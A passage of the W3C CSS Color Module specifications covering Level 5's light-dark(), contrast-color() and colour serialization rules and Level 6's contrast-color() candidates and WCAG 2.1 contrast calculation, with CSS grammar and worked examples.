### 7.  Reacting to the used color-scheme: the `light-dark()` Function {#css-color-5:light-dark}

System colors have the ability to react to an element’s color scheme. The `light-dark()` function exposes the same capability to authors.

There are two forms of this function: one takes a pair of colors while the other takes a pair of images. Attempting to use one image and one color will result in a parse-time error.

```css
light-dark() = <light-dark-color> | <light-dark-image>
<light-dark-color> = light-dark(<color>, <color>)
<light-dark-image> = light-dark( [ <image> | none ] , [ <image> | none ] ) 
```

For the color form, this function computes to the computed value of the first color, if the element color scheme is `light`, or to the computed value of the second color, if the element color scheme is `dark`.

For the image form, this function returns the first image, if the element color scheme is `light`, or the second image, if the element color scheme is `dark`.

The **none** keyword computes to `image(transparent)` (a fully transparent image with no natural size).

> **Example:** For example, to maintain a legible contrast on links, for light mode and dark mode:
>
> ```css
>   a:link {
>       color: light-dark(blue, #81D9FE);
>       background-color: light-dark(white, black);
> }
> ```
>
> The traditional  blue link text is legible on a  white background (WCAG contrast 8.59:1, AAA pass) but would not be legible on a  black background (WCAG contrast 2.44:1, AA fail). Instead, a lighter blue  #81D9FE is used in dark mode. (WCAG contrast 13.28:1, AAA pass).
>
> Legible link text
>
> Illegible link text
>
> Legible link text

> **Example:** For example, to provide easily visible list bullets for light mode and dark mode:
>
> ```css
> ul.fancy {
>   list-style-image: light-dark(
>     url("icons/deep-maroon-ball.png"),
>     url("icons/pale-yellow-star.png")
>   );
> }
> ```

> **Example:** For example, a raster image is used in light mode, while in dark mode we want a fully-transparent image.
>
> ```css
> background-image: light-dark(url(my-light-image.png), none);
> ```
>
> This is equivalent to:
>
> ```css
> background-image: light-dark(url(my-light-image.png), image(transparent));
> ```

### 8.  Dynamically specifying a text color with adequate contrast: the `contrast-color()` Function {#css-color-5:contrast-color}

When colors are created dynamically, it can often be a challenge to specify a text color that provides adequate contrast with them when used as a background color. The `contrast-color()` function automatically provides a color with guaranteed color contrast when used as a text color on a solid background of the specified color.

> **Note:** Legibility is a complex topic, and sufficient color contrast is only one piece of the puzzle. Having a color pair with sufficient contrast does not guarantee that the text will be legible, as that also depends on a variety of factors, such as the font, the size of the text, the surrounding colors, etc.

```css
contrast-color() = contrast-color( <color> )
```

`contrast-color()` resolves to either `white` or `black`, whichever produces **maximum** color contrast for text when the input color is used as a solid background. If both `white` and `black` produce the same contrast, it resolves to `white`.

The precise color contrast algorithm for determining whether to output a light or dark color is UA-defined at this level.

> **Note:** Future versions of this specification are expected to introduce more control over both the contrast algorithm(s) used, the use cases, as well as the returned color.

UAs are advised to not simply use the WCAG 2.1 [section 1.4.3 Contrast (Minimum)](https://www.w3.org/TR/WCAG21/#contrast-minimum) contrast ratio algorithm to decide between light and dark colors, as it has [several known issues](https://www.cedc.tools/article.html). However, colors returned by this function should still meet the WCAG 2.1 [section 1.4.3 Contrast (Minimum)](https://www.w3.org/TR/WCAG21/#contrast-minimum) for AA large text, as many authors need to meet legal requirements that mandate this.

### 9.  Color Interpolation {#css-color-5:interpolation}

#### 9.1.  Color Space for Interpolation {#css-color-5:interpolation-space}

The `<color-interpolation-method>`, as defined in [CSS Color 4 § 13.3 Color Space for Interpolation](#css-color-4:interpolation-space), is extended to allow use of the [custom color spaces](#css-color-5:custom-color):

```css
<color-space> = <rectangular-color-space> | <polar-color-space> | <custom-color-space>
<rectangular-color-space> = srgb | srgb-linear | display-p3 | display-p3-linear | a98-rgb | prophoto-rgb | rec2020 | lab | oklab | <xyz-space>
<polar-color-space> = hsl | hwb | lch | oklch
<custom-color-space> = <dashed-ident>
<hue-interpolation-method> = [ shorter | longer | increasing | decreasing ] hue
<color-interpolation-method> = in [ <rectangular-color-space> | <polar-color-space> <hue-interpolation-method>? | <custom-color-space> ]
```

The `<dashed-ident>` must have been declared in a valid `@color-profile` rule, otherwise the `<color-interpolation-method>` is invalid.

### 10.  Resolving `<color>` Values {#css-color-5:resolving-color-values}

#### 10.1.  Resolving `color-mix()` Values {#css-color-5:resolving-mix}

If all `<color>` parameters resolve to the corresponding colors in their respective color spaces, the computed value is the mixed color, in the specified mixing color space, resolved according to [CSS Color 4 §  15. Resolving <color> Values](#css-color-4:resolving-color-values). Otherwise (if `currentColor` was used in the function), the computed value is the `color-mix()` function with each <color> parameter resolved according to [CSS Color 4 §  15. Resolving <color> Values](#css-color-4:resolving-color-values), thus preserving inheritance into child elements.

#### 10.2.  Resolving Relative Color Syntax Values {#css-color-5:resolving-rcs}

If all `<color>` parameters resolve to the corresponding colors in their respective color spaces, the computed value is the absolute <color> value, in the relative color processing space, resolved according to [CSS Color 4 §  15. Resolving <color> Values](#css-color-4:resolving-color-values).

Otherwise (if `currentColor` was used in the function), the computed value is the Relative Color Syntax function with the origin `<color>` parameter resolved according to [CSS Color 4 §  15. Resolving <color> Values](#css-color-4:resolving-color-values), thus preserving inheritance into child elements.

#### 10.3.  Resolving `device-cmyk` Values {#css-color-5:resolving-device-cmyk-values}

The computed and used value is the specified device-specific CMYK color, (with components as `<number>`, not `<percentage>`) paired with the specified alpha component (as a <number>, not a <percentage>; and defaulting to opaque if unspecified).

The actual value can vary based on the operation; for rendering to a CMYK-capable device, it may be rendered as a CMYK color; for blending with non-CMYK colors or rendering to a non-CMYK device, it must be converted as specified in [§ 6 Uncalibrated CMYK Colors: the device-cmyk() Function](#css-color-5:device-cmyk).

> **Example:** For example,
>
> ```css
>  device-cmyk(0% 70% 20% 0%)
> ```
>
> has the specified and actual value
>
> ```css
>  device-cmyk(0 0.7 0.2 0)
> ```
>
> and will, if the implementation understands ICC profiles and has an appropriate profile installed, have the used value
>
> ```css
>  lab(63.673% 51.577 5.811)
> ```
>
> > **Note:** As with all colors, the used value is not available to script.

### 11.  Serialization {#css-color-5:serial}

This section extends [CSS Color 4 §  16. Serializing <color> Values](#css-color-4:serializing-color-values) to add serialization of the results of the `color-mix()`, `device-cmyk()`, and relative color functions.

In this section, the strings used in the specification and the corresponding characters are as follows.

| String | Character |
| --- | --- |
| " " | U+0020 SPACE |
| "," | U+002C COMMA |
| "-" | U+002D HYPHEN-MINUS |
| "." | U+002E FULL STOP |
| "/" | U+002F SOLIDUS |

The string "." shall be used as a decimal separator, regardless of locale, and there shall be no thousands separator.

As usual, if the alpha of the result is exactly 1, it is omitted from the serialization; an implicit value of 1 (fully opaque) is the default.

#### 11.1.  Serializing color-mix() {#css-color-5:serial-color-mix}

The serialization of the declared value of a `color-mix()` function is the string "color-mix(", followed by, unless the `<color-space>` is `oklab` (whether explicitly specified or defaulted): the string "in ", followed by the <color-space> in all-lowercase, followed by, if a `<hue-interpolation-method>` was specified and is not `shorter hue`, " " and the <hue-interpolation-method> in all-lowercase, followed by ", ", followed by the serialization of each color argument (see below), separated by ", ", followed by ")".

Each color argument is serialized as the serialized `<color>`, followed by, if a percentage is serialized for this argument (see below), " " and the serialized percentage.

Each color argument is serialized individually; in particular, identical colors are not collapsed into a single argument.

The serialized percentages of the declared value of a `color-mix()` function are determined as follows. Let *N* be the number of color arguments.

For each argument, let its **effective percentage** be:

- its specified `<percentage>`, if one was explicitly provided and is not a `calc()` expression;
- if its `<percentage>` was omitted, and none of the other specified <percentage>s are `calc()` expressions: `(100% − specified sum) / omitted count`, where *specified sum* is the sum of the explicitly specified <percentage>s and *omitted count* is the number of arguments with omitted <percentage>s;
- otherwise, unknown.

If all effective percentages are known, equal to each other, and greater than or equal to `100% / N`, no percentages are serialized. Otherwise, each argument’s percentage is serialized as follows:

- If a `<percentage>` was explicitly specified, it is serialized as-is.
- If a `<percentage>` was omitted and none of the other specified <percentage>s are `calc()` expressions: the value `(100% − specified sum) / omitted count` is serialized, where *specified sum* and *omitted count* are as defined above.
- Otherwise (a `<percentage>` was omitted but another argument has a `calc()` <percentage>): nothing is serialized.

> **Note:** `calc()` values are considered unknown, so are **never** equal to `100% / N`, and prevent computation of omitted `<percentage>`s.

> **Example:** For example, the serialized declared value of
>
> ```
> color-mix(in oklab, teal, peru 40%)
> ```
>
> would be the string "color-mix(teal 60%, peru 40%)": the color space is omitted because it is the default (`oklab`), and all percentages are serialized because they are not all equal to 100%/2 = 50%.
>
> The serialized declared value of
>
> ```
> color-mix(in oklab, teal 50%, peru 50%)
> ```
>
> would be the string "color-mix(teal, peru)": both percentages equal 100%/2 = 50%, so they are all omitted.
>
> The serialized declared value of
>
> ```
> color-mix(in oklab, teal 70%, peru 70%)
> ```
>
> would be the string "color-mix(teal 70%, peru 70%)": the specified percentages are 70%, not 50%, so they are not omitted, even though they normalize to 50% each during computation.
>
> The serialized declared value of
>
> ```
> color-mix(in oklch longer hue, red, green, blue)
> ```
>
> would be the string "color-mix(in oklch longer hue, red, green, blue)": the color space (`oklch`) is not the default, the hue interpolation method (`longer`) is not the default (`shorter`), and all percentages equal 100%/3, so they are all omitted.
>
> The serialized declared value of
>
> ```
> color-mix(red 50%, green, blue)
> ```
>
> would be the string "color-mix(red 50%, green 25%, blue 25%)": the percentages are not all equal to 100%/3, so all are serialized, including the omitted ones which each get (100% − 50%) / 2 = 25%.

The serialization of the result of a `color-mix()` function depends on whether the keyword `currentColor` is used in the mix. If so, the result is serialized as the declared value. This allows the correct mixture to be used on child elements whose color property has a different value. Otherwise, it is a `<color>`, as defined in [CSS Color 4 §  16. Serializing <color> Values](#css-color-4:serializing-color-values). The form used depends on the color space specified with "in":

| mixing color space | form |
| --- | --- |
| srgb | color(srgb r g b) |
| srgb-linear | color(srgb-linear r g b) |
| display-p3 | color(display-p3 r g b) |
| a98-rgb | color(a98-rgb r g b) |
| prophoto-rgb | color(prophoto-rgb r g b) |
| rec2020 | color(rec2020 r g b) |
| hsl | color(srgb r g b) |
| hwb | color(srgb r g b) |
| xyz-d65 | color(xyz-d65 x y z) |
| xyz-d50 | color(xyz-d50 x y z) |
| xyz | color(xyz-d65 x y z) [¹](#css-color-5:fn1) |
| lab | lab(l a b) |
| lch | lch(l c h) |
| oklab | oklab(l a b) |
| oklch | oklch(l c h) |

**¹**

: Because `xyz` is just an alias for `xyz-d65`

However, if the result of mixing in the `hsl` or `hwb` color space has at least one missing color component (including a missing alpha carried forward per [CSS Color 4 § 13.4 Interpolating with Missing Components](#css-color-4:interpolation-missing)), the form used is the modern `hsl(h s l / a)` or `hwb(h w b / a)` syntax respectively, preserving the original color function and each `none` value per [CSS Color 4 § 16.2.2 CSS serialization of sRGB values](#css-color-4:css-serialization-of-srgb), rather than degrading to `color(srgb r g b)` (which would lose the `hsl`/`hwb` identity).

The *minimum* precision for round-tripping is the same as that specified in [CSS Color 4 §  16. Serializing <color> Values](#css-color-4:serializing-color-values).

> **Example:** The result of this color mixture
>
> ```
> color-mix(in lch, peru 40%, palegoldenrod)
> ```
>
> is serialized as the string  "lch(79.7256 40.448 84.771)" while the result of
>
> ```
> color-mix(in srgb, peru 40%, palegoldenrod)
> ```
>
> is serialized as the string  "color(srgb 0.8816 0.7545 0.4988)".

#### 11.2.  Serializing Origin Colors {#css-color-5:serial-origin-color}

The serialization of a the declared value of a color used as the origin color inside of another color function as components of a declared value is:

1. For `rgb()`, `rgba()`, `hsl()`, `hsla()`

- the string identifying the canonical color function, "rgb" for `rgb()` and `rgba()`, "hsl" for `hsl()` and `hsla()`, in all-lowercase, followed by "(", followed by a space separated list of the non-alpha components as specified (numbers serializing as numbers, percentages serializing as percentages, angles serializing as canonicalized angles in degrees, calc() serializing in its simplified form) with no clamping applied, followed by " / " and the alpha component as specified (using the same rules as the color components) if an alpha component is present, followed by ")".

> **Note:** the same serialization is used regardless of whether the modern or legacy syntax was used.

1. For `hwb()`, `lab()`, `lch()`, `oklab()`, `oklch()`

- the string identifying the color function in all-lowercase, followed by "(", followed by a space separated list of the non-alpha components as specified (numbers serializing as numbers, percentages serializing as percentages, angles serializing as canonicalized angles in degrees, calc() serializing in its simplified form) with no clamping applied, followed by " / " and the alpha component as specified (using the same rules as the color components) if an alpha component is present, followed by ")".

1. For `color()`

- the string "color(" followed by the canonical colorspace ("xyz-d65" for "xyz") in all-lowercase followed by a space, followed by a space separated list of the non-alpha components as specified (numbers serializing as numbers, percentages serializing as percentages, angles serializing as canonicalized angles in degrees, calc() serializing in its simplified form) with no clamping applied, followed by " / " and the alpha component as specified (using the same rules as the color components) if an alpha component is present, followed by ")".

#### 11.3.  Serializing Relative Color Functions {#css-color-5:serial-relative-color}

The serialization of the declared value of a relative color is:

1. For `rgb()`, `rgba()`, `hsl()`, `hsla()`

- the string identifying the canonical color function, "rgb" for `rgb()` and `rgba()`, "hsl" for `hsl()` and `hsla()`, in all-lowercase, followed by "(from ", followed by the [serialization of the origin color](#css-color-5:serial-origin-color) using the rules for serializing nested origin colors, followed by a single space, followed by a space separated list of the non-alpha channel arguments as specified (identifiers serializing as identifiers, numbers and percentages serializing as numbers, angles serializing as canonicalized angles in degrees, calc() serializing in its simplified form), followed (if the alpha component is non-unity) by " / " and the alpha component as specified (using the same rules as the color channel arguments, but clamped) followed by ")".

1. For `hwb()`, `lab()`, `lch()`, `oklab()`, `oklch()`

- the string identifying the color function in all-lowercase, followed by "(from ", followed by the [serialization of the origin color](#css-color-5:serial-origin-color) using the rules for serializing nested origin colors, followed by a single space, followed by a space separated list of the non-alpha channel arguments as specified (identifiers serializing as identifiers, numbers and percentages serializing as numbers, angles serializing as canonicalized angles in degrees, calc() serializing in its simplified form), followed (if the alpha component is non-unity) by " / " and the alpha component as specified (using the same rules as the color channel arguments, but clamped) followed by ")".

1. For `color()`

- the string "color(from ", followed by the [serialization of the origin color](#css-color-5:serial-origin-color) using the rules for serializing nested origin colors, followed by a single space, followed by the canonical colorspace ("xyz-d65" for "xyz") in all-lowercase, followed by a single space, followed by a space separated list of the non-alpha channel arguments as specified (identifiers serializing as identifiers, numbers and percentages serializing as numbers, angles serializing as canonicalized angles in degrees, calc() serializing in its simplified form), followed (if the alpha component is non-unity) by " / " and the alpha component as specified (using the same rules as the color channel arguments, but clamped) followed by ")".

1. for `alpha()`

- the string "alpha(from ", followed by the [serialization of the origin color](#css-color-5:serial-origin-color) using the rules for serializing nested origin colors, followed by a single space, followed by the canonical colorspace ("xyz-d65" for "xyz") in all-lowercase, followed by " / " and the alpha component as specified (using the same rules as the color channel arguments, but clamped) followed by ")".

> **Example:** For example, the serialization of the declared value of
>
> ```css
> OkLcH(from peru  l    c  h)
> ```
>
> is the string "oklch(from peru l c h)"

> **Example:** For example, the serialization of the declared value of
>
> ```css
> rgb(from red calc(r / 2) g calc(30%));
> ```
>
> is the string "rgb(from red calc(0.5 * r) g calc(30%))", while the serialization of the computed value is the string "color(srgb 0.5 0 0.3)".

> **Example:** For example, the serialization of the declared value of
>
> ```css
> hsl(from hsl(0deg 10% 50%) h s l);
> ```
>
> is the string "hsl(from hsl(0deg 10% 50%) h s l)", while the serialization of the computed value is the string "color(srgb 0.55 0.45 0.45)".

> **Example:** For example, the serialization of the declared value of
>
> ```css
> hsl(from hsl(none 10% 50%) h s l);
> ```
>
> is the string "hsl(from hsl(none 10% 50%) h s l)", while the serialization of the computed value is the string "hsl(none 10% 50%)".
>
> The computed value carries forward the missing hue, giving an `hsl()` relative color whose hue is itself missing. Because the resolved value contains missing color components, the serialization uses the modern `hsl()` form, yielding the string "hsl(none none none / none)" rather than `color(srgb 0.55 0.45 0.45)`.

> **Example:** For example, the serialization of the declared value of
>
> ```css
> hsl(from rebeccapurple none none none / none);
> ```
>
> is the string "hsl(from rebeccapurple none none none / none)".
>
> The computed value carries forward the missing alpha (alpha is its own analogous component), giving an `hsl()` relative color whose hue, saturation, lightness, and alpha are all missing. Because the resolved value contains missing color components, the serialization uses the modern `hsl()` form, yielding the string "hsl(none none none / none)" rather than `color(srgb 0 0 0 / none)`.

> **Example:** For example, the serialization of the declared value of
>
> ```css
> hsl(from hsl(127.9 302% 25.33%) h s l);
> ```
>
> is the string "hsl(from hsl(127.9 302% 25.33%) h s l)", while the serialization of the computed value is the string "color(srgb -0.511666 1.018266 -0.310225)".

> **Example:** Given the following HTML (note the color property set on this element):
>
> ```html
> <div id="example" 
>   style="background-color: rgb(from currentcolor r g calc(b / 2)); 
>   color: blue;">
> </div>
> ```
>
> The serialization of the declared value of `background-color` is the string "rgb(from currentcolor r g calc(b / 2))" while the serialization of the computed value is the string "color(srgb 0 0 0.5)"

> **Example:** For example, the serialization of the declared value of
>
> ```css
> alpha(from red / 0.5)
> ```
>
> is the string "color(srgb 1 0 0 / 0.5)" because trailing zeros are trimmed, while the serialization of the declared value of
>
> ```css
> alpha(from gold / calc(2/3))
> ```
>
> is the string "color(srgb 1 0.843137 0 / 0.666667)" because, by [CSS Color 4 § 16.1.2 Serializing modern alpha values](#css-color-4:serializing-modern-alpha-values) modern alpha values are serialized with six decimal places (unless there are trailing zeroes).

The serialization of the result of a relative color function depends on whether the keyword `currentColor` is the origin color. If so, the result is serialized as the declared value. This allows the correct value to be used on child elements whose color property has a different value. Otherwise, it is the resolved value, which is a `<color>`, as defined in [CSS Color 4 §  16. Serializing <color> Values](#css-color-4:serializing-color-values).

The form used depends on the relative color processing space:

| relative color processing space | form |
| --- | --- |
| srgb | color(srgb r g b) |
| srgb-linear | color(srgb-linear r g b) |
| display-p3 | color(display-p3 r g b) |
| a98-rgb | color(a98-rgb r g b) |
| prophoto-rgb | color(prophoto-rgb r g b) |
| rec2020 | color(rec2020 r g b) |
| hsl | color(srgb r g b) |
| hwb | color(srgb r g b) |
| xyz-d65 | color(xyz-d65 x y z) |
| xyz-d50 | color(xyz-d50 x y z) |
| xyz | color(xyz-d65 x y z) |
| lab | lab(l a b) |
| lch | lch(l c h) |
| oklab | oklab(l a b) |
| oklch | oklch(l c h) |

However, if the resolved value of an `hsl()` or `hwb()` relative color has at least one missing color component (including a missing alpha carried forward from the origin color per [CSS Color 4 § 13.4 Interpolating with Missing Components](#css-color-4:interpolation-missing)), the form used is the modern `hsl(h s l / a)` or `hwb(h w b / a)` syntax respectively, preserving the original color function and each `none` value, rather than degrading to `color(srgb r g b)` (which would lose the `hsl`/`hwb` identity). This parallels [§ 11.2 Serializing Origin Colors](#css-color-5:serial-origin-color), which always emits the modern slash syntax for origin colors, and follows the general sRGB serialization rules in [CSS Color 4 § 16.2.2 CSS serialization of sRGB values](#css-color-4:css-serialization-of-srgb).

The *minimum* precision for round-tripping is the same as that specified in [CSS Color 4 § 16.5 Serializing values of the color() function](#css-color-4:serializing-color-function-values).

> **Example:** The result of serializing
>
> ```css
> lch(from peru calc(l * 0.8) calc(c * 0.7) calc(h + 180)) 
> ```
>
> is the string  "lch(49.80224 37.80819 243.6803)"

#### 11.4.  Serializing Custom Color Spaces {#css-color-5:serial-custom-color}

The precision with which `color()` component values are retained, and thus the number of significant figures in the serialized value, is not defined in this specification, but for CMYK color spaces must at least be sufficient to round-trip values with eight bit precision; this will result in at least two decimal places unless trailing zeroes have been omitted.

> **Example:** The serialized value of the color in
>
> ```css
> @color-profile --swop5c {
>     src: url('https://example.org/SWOP2006_Coated5v2.icc');
>     }
>     .header {
>     background-color:    color(--swop5c  0% 70.0% 20.00% .0%);
>     }
> ```
>
> is the string "color(--swop5c 0 0.7 0.2 0)"

#### 11.5.  Serializing `device-cmyk` Values {#css-color-5:serializing-device-cmyk-values}

The serialized form of `device-cmyk()` values is derived from the computed value and uses the `device-cmyk()` form, with lowercase letters for the function name.

The component values are serialized in base 10, as `<number>`. A single ASCII space character " " must be used as the separator between the component values.

Trailing fractional zeroes in any component values must be omitted; if the fractional part consists of all zeroes, the decimal point must also be omitted.

> **Example:** The serialized value of the color
>
> ```css
>   device-cmyk(0 81% 81% 30%)
> ```
>
> is the string "device-cmyk(0 0.81 0.81 0.3)"

The precision with which `device-cmyk()` component values are retained, and thus the number of significant figures in the serialized value, is not defined in this specification, but must at least be sufficient to round-trip values with eight bit precision; this will result in at least two decimal places unless trailing zeroes have been omitted. Values must be [rounded towards +∞](#css-values-4:combine-integers), not truncated.

Unitary alpha values are not explicitly serialized. Non-unitary alpha values must be explicitly serialized, and the string " / " (an ASCII space, then forward slash, then another space) must be used to separate the black ("k") color component value from the alpha value.

### 12. APIs {#css-color-5:apis}

#### 12.1. The `CSSColorProfileRule` interface {#css-color-5:the-csscolorprofilerule-interface}

The CSSColorProfileRule interface represents a `@color-profile` rule.

```webidl
[Exposed=Window]
interface CSSColorProfileRule : CSSRule {
  readonly attribute CSSOMString name ;
  readonly attribute CSSOMString src ;
  readonly attribute CSSOMString renderingIntent ;
  readonly attribute CSSOMString components ;
};
```

****`name`**,  of type CSSOMString, readonly**

: The *name* attribute on getting must return a `CSSOMString` object that contains the serialization of the color profile’s *name* defined for the associated rule.

****`src`**,  of type CSSOMString, readonly **`renderingIntent`**,  of type CSSOMString, readonly **`components`**,  of type CSSOMString, readonly**

: The remaining attributes on getting must return a `CSSOMString` object that contains the serialization of the associated descriptor defined for the associated rule. If the descriptor was not specified in the associated rule, the attribute must return an empty string.

### 13.  Default Style Rules {#css-color-5:sample}

The following stylesheet is informative, not normative. This style sheet could be used by an implementation as part of its default styling of HTML Family documents.

```css
/* traditional desktop user agent colors for hyperlinks */
:link { color: LinkText; }
:visited { color: VisitedText; }
:active { color: ActiveText; }

/* a reasonable, conservative default for device-cmyk */
@color-profile device-cmyk {
  src: url('https://drafts.csswg.org/css-color-4/ICCprofiles/Coated_Fogra39L_VIGC_300.icc');
}
```

### 14.  Sample code for Color Conversions {#css-color-5:color-conversion-code}

*This section is not normative.*

The naive conversion from device-cmyk is trivial:

```javascript
function naive(cmyk) {
  // naively convert an array of CMYK values
  // to sRGB
  let [cyan, magenta, yellow, black] = cmyk;
    let red = 1 - Math.min(1, cyan * (1 - black) + black);
    let green = 1 - Math.min(1, magenta * (1 - black) + black);
    let blue = 1 - Math.min(1, yellow * (1 - black) + black);
    return [red, green, blue];
}
```

### 17. Accessibility Considerations {#css-color-5:a11y-sec}

This specification adds a way to ensure adequate contrast for text whose background is a user-specified color, including dynamic colors.

---

## CSS Color Module Level 6 {#css-color-6}

- **Shortname:** `css-color-6`
- **Editor's Draft:** [https://drafts.csswg.org/css-color-6/](https://drafts.csswg.org/css-color-6/)
- **Published TR:** [https://www.w3.org/TR/css-color-6/](https://www.w3.org/TR/css-color-6/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-10-08
- **Diff Specification Over:** [CSS Color Module Level 5 (`css-color-5`)](#css-color-5)

### 1. Introduction {#css-color-6:intro}

*This section is not normative.*

This module adds a\two new `<color>` functions: `contrast-color()` and `color-layers()`.

### 2. Computing a Contrasting Color: the `contrast-color()` function {#css-color-6:colorcontrast}

The **contrast-color()** functional notation identifies a sufficiently contrasting color against a specified background or foreground color without requiring manual computation.

Its syntax is:

```css
<contrast-color()> = contrast-color(
  [ [ <color> && [ tbd-fg | tbd-bg ] && <target-contrast>? ] |
    [ <color> && [ tbd-fg | tbd-bg ] && <target-contrast>, <color># ] ] )
<target-contrast> = <wcag2>
```

The only mandatory argument is the **base color** against which the contrast is computed. This is typically (but not necessarily) a background color.

The optional list of `<color>` values represents the **color candidates**. If no candidates are provided, the default candidates are used: `white, black`.

The `tbd-fg` and `tbd-bg` keywords indicate the role of the base color in calculating the contrast: as text against a list of candidate background colors (**text**) or as a background against a list of candidate text colors. (The effective contrast of a pair of colors depends on their usage.)

> **Issue:** The keywords to specify whether the base color is a foreground or background are TBD. [[Issue #7359]](https://github.com/w3c/csswg-drafts/issues/7359)

The **`<target-contrast>`** argument specifies the contrast algorithm(s) to use. If no color candidates have been provided, `<target-contrast>` may be omitted, in which case a UA-chosen algorithm is used.

Arguments to a `<target-contrast>` functional notation indicate the **target contrast level**. Multiple contrast algorithms with target contrast levels may be specified, in which case all their requirements are simultaneously applied. A `contrast-color()` function specifying multiple algorithms must specify a target contrast level for each algorithm, and is otherwise invalid.

If the target contrast level is omitted, the color candidate with the greatest contrast is returned. Otherwise, the returned color is the first color candidate that meets or exceeds that level, defaulting to `white` or `black` if none qualify.

#### 2.1.  Finding the Winning Color {#css-color-6:contrast-color-winner}

##### 2.1.1.  If there is a target contrast {#css-color-6:contrast-color-target-winner}

Candidate colors are tested sequentially, starting with the first color in the list, and ending with an automatically appended `white, black`. The first color to pass the specified level(s) of contrast against the base color wins.

If no candidate color passes, then whichever of `white` or `black` has the highest contrast according to the first specified algorithm wins. If they both have the same contrast, `white` wins.

> **Example:** ```css
> contrast-color(wheat tbd-bg wcag2(aa), bisque, darkgoldenrod, olive, sienna, darkgreen, maroon)
> ```
>
> The calculation is as follows:
>
> - wheat (#f5deb3), the background, has relative luminance 0.749
> - bisque (#ffe4c4) has relative luminance 0.807 and contrast ratio **1.073**
> - darkgoldenrod (#b8860b) has relative luminance 0.273 and contrast ratio **2.477**
> - olive (#808000) has relative luminance 0.200 and contrast ratio **3.193**
> - sienna (#a0522d) has relative luminance 0.137 and contrast ratio **4.274**
> - darkgreen (#006400 ) has relative luminance 0.091 and contrast ratio **5.662**
> - maroon (#800000) has relative luminance 0.046 and contrast ratio **8.333**
>
> The first color in the list which meets the desired contrast ratio of 4.5 is  darkgreen.

> **Example:** ```css
> contrast-color(wheat tbd-bg wcag2(5.8), bisque, darkgoldenrod, olive, sienna, darkgreen, maroon)
> ```
>
> The calculation is as follows:
>
> - the relative luminances and contrast ratios are the same as the previous example.
>
> The first color in the list which meets the desired contrast ratio of 5.8 is  maroon.

> **Example:** ```css
> contrast-color(wheat tbd-bg wcag2(AA), bisque, darkgoldenrod, olive)
> ```
>
> The calculation is as follows:
>
> - the relative luminances and contrast ratios are the same as the previous example.
>
> No color in the list meets the desired contrast ratio of 4.5. The contrast of  `white` against the base color of  `wheat` is 1.314, which is smaller than 4.5 (AA), and thus does not pass the target contrast. Therefore,  `black` is returned, which has a contrast of 15.982 > 4.5.

##### 2.1.2.  If no target contrast is specified {#css-color-6:contrast-color-max-winner}

Candidate colors are tested sequentially, starting with the first color in the list. A color is the *temporary winner* if it has the highest contrast against the base color of all those tested so far.

Once the end of the list is reached, the current *temporary winner* is the overall winner. Thus, if two colors in the list happen to have the same contrast, the earlier one wins.

> **Example:** ```css
> --myAccent: #b22222;
> color: contrast-color(wheat tbd-bg wcag2, tan, sienna, var(--myAccent), #d2691e)
> ```
>
> The calculation is as follows:
>
> - wheat (#f5deb3), the background, has relative luminance 0.749
> - tan (#d2b48c) has relative luminance 0.482 and contrast ratio **1.501**
> - sienna (#a0522d) has relative luminance 0.137 and contrast ratio **4.273**
> - --myAccent (#b22222) has relative luminance 0.107 and contrast ratio **5.081**
> - #d2691e has relative luminance 0.305 and contrast ratio **2.249**
>
> The highest contrast ratio is **5.081** so `var(--myAccent)` wins

> **Example:** ```css
> foo {
>   --bg: hsl(200 50% 80%);
>   --purple-in-hsl: hsl(300 100% 25%);
>   color: contrast-color(var(--bg) tbd-fg wcag2, hsl(200 83% 23%), purple, var(--purple-in-hsl));
> }
> ```
>
> The calculation is as follows:
>
> - --bg is rgb(179 213 230) which has relative luminance 0.628835
> - hsl(200 83% 23%) is rgb(10 75 107) which has relative luminance 0.061575 and contrast ratio **6.08409**
> - purple is rgb(128 0 128) which has relative luminance 0.061487 and contrast ratio **6.08889**
> - --purple-in-hsl is also rgb(128 0 128) which has relative luminance 0.061487 and contrast ratio **6.08889**. This is not greater than the contrast for purple, so purple wins.
>
> The calculated values here are shown to six significant figures, to demonstrate that early rounding to a lower precision would have given the wrong result (0.061575 is very close to 0.061487; 6.08409 is very close to 6.08889).

#### 2.2.  Contrast algorithms {#css-color-6:contrast-algorithms}

> **Issue:** Currently only [WCAG 2.1](#css-color-6:luminance-contrast) is supported, however this algorithm is known to have problems, particularly on dark backgrounds. Future revisions of this module will likely introduce additional contrast algorithms.

##### 2.2.1.  WCAG 2.1: the `wcag2` keyword and `wcag2()` function {#css-color-6:luminance-contrast}

The **wcag2** keyword and **wcag2()** functional notations indicate use of the [WCAG21] [luminance contrast](https://www.w3.org/TR/WCAG21/#contrast-minimum) algorithm. Their syntax is:

```css
<wcag2> =  wcag2 | wcag2([<number> | [ aa | aaa ] && large? ])
```

Its target contrast level keywords map as follows:

- `aa` computes to `4.5`
- `aa large` (or `large aa`) computes to `3`
- `aaa` computes to `7`
- `aaa large` (or `large aaa`) computes to `4.5`

To find the contrast of a pair of colors, first their CIE Luminance (Y) is calculated relative to a D65 whitepoint. Then the WCAG 2.1 contrast is calculated: contrast = (Yl + 0.05) / (Yd + 0.05) where Yd is the luminance of the darker color in the pair and Yl is the luminance of the lighter color. The factor 0.05 represents the luminance contribution of the viewing flare.

> **Example:** Suppose that the base color were
>
> ```css
> color(display-p3 0.38 0.11 0.05)
> ```
>
> while the first color candidate in the list is
>
> ```css
> yellow
> ```
>
> The calculation is as follows:
>
> - color(display-p3 0.38 0.11 0.05) is  color(xyz 0.06191 0.03568 0.00463) so the relative luminance is **0.03568**
> - yellow is  rgb(100% 100% 0%) which is  color(xyz 0.76998 0.92781 0.13853) so the relative luminance is **0.92781**
> - the contrast is (0.92781 + 0.05) / (0.03568 + 0.05) = **11.4123**

##### 2.2.2.  Contrasting Semi-transparent Colors {#css-color-6:contrast-transparency}

This section applies only to contrast algorithms that require their inputs to be opaque colors.

When calculating the contrast of a pair of colors:

1. The background color is first blended over an opaque canvas color using simple alpha compositing (see [Compositing 1 § 5.1 Simple alpha compositing](#compositing-2:simplealphacompositing)) to find an opaque background color.

   > **Issue:** [#7358](https://github.com/w3c/csswg-drafts/issues/7358) Find a good opaque canvas color for this computation. Candidates are:
   >
   > - the foreground color with alpha = 1
   > - the `canvas` system color
   > - some other color calculated to minimize the contrast for the algorithm used
2. The foreground color is then blended over this opaque background color to find an opaque foreground color.

### 3. Layering Multiple Colors: the `color-layers()` function {#css-color-6:color-layers}

The **color-layers()** functional notation takes an optional `<blend-mode>` followed by a list of two or more `<color>` layers.

Its syntax is:

```css
